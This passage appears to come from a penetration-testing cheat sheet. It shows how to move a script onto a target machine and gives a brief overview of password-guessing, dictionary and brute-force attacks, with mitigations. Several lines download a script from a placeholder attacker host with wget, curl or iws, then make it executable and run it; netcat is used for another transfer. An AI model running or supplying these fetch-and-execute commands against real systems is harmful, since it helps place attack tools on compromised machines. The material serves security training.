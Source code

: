 <i class="small">On the client that need the file:</i>

```bash
# Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
$ chmod +x /tmp/script.sh;
$ /tmp/script.sh
# Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> . $Env:TMP/script.ps1; script
```
</div><div>

Of course, it doesn't work in every case.

* You may use copy-paste if available ✂️
* You may try with `python2`, and `python3`
* You may have to use `curl` or `iws` (Windows-only)

```bash
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

* You can use netcat 🌉

```bash
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

* You may use FTP/SCP/NFS... if applicable
</div></div>

<hr class="sep-both">

## Password attacks 🔐

<div class="row row-cols-md-2"><div>

There are 3 usual ways of carrying a password attack

* **Password Guessing**: based on knowledge of the target (birth year...)
* **Dictionary Attack**: test a list in which there may be the password
* **Brute Force Attack**: try every possibility (ex: incremental ASCII)
</div><div>

There are a few mitigations

* Block an IP after $n$ failed attempts within $x$ seconds

* Use a strong password policy

* Delay authentication attempts (throttle) to slow down attacks

* Use a CAPTCHA while taking into account that they are services to "bypass" them
